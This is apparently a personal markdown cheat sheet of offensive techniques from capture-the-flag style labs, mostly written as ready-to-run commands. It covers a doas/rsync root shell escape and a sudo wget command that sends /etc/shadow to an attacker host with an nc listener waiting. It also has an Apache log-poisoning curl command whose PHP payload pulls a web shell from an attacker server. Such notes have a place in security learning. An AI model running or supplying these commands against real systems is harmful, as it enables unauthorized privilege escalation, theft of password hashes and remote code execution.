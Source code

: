 - Doas allows execution of commands as another user
- Find `doas.conf` with

      find / -name "doas.conf" -type f 2</dev/null

![image](https://github.com/user-attachments/assets/cfc414f8-1003-4122-a731-66f8f096f89b)

- To execute commands,use

       doas -u <user> <command> <args>
       e.g doas -u root rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null

--------------------------

### Exploiting GIT to gain sensitive information


### REFERENCES

- [Some OP medium blog](https://satyasai1460.medium.com/how-git-folder-can-be-exploited-to-access-sensitive-data-eb805c38fd6c)

----------------------------

### PRIVESC with /usr/bin/wget

![image](https://github.com/user-attachments/assets/592ffb4a-8c02-479f-b0be-6bc6b131435d)

- File read,set up a listener with nc on your attack machine to receive
- Send file with

      sudo -u root /usr/bin/wget post-file=/etc/shadow <ip>:<port>

- To receive file

      sudo -u root /usr/bin/wget http://<ip>:<port>/filename -O <save name>

### REFERENCES

- [HDKS](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/)

----------------------------

### LFI2RCE with apache2 server's log

- Log location-:`/var/log/apache2/access.log`
- Host a command shell php code with python's http.server

  ![image](https://github.com/user-attachments/assets/e2e7c58f-4e52-44bc-aaa5-1c3f2cec9e49)

- RCE:
  - Exploit HTTP-Header `User-Agent`
    e.g

         curl http://mafialive.thm/test.php\?view\=/var/www/html/development_testing/.././.././.././.././var/log/apache2/access.log -H "User-Agent: <?php file_put_contents('shell.php',file_get_contents('http://<http server's ip>:<http server'sport>/shell.php')) ?>"
  - Reload the log file to execute code
  - Sometimes you need to set the file path of shell.php to a path with write permissions
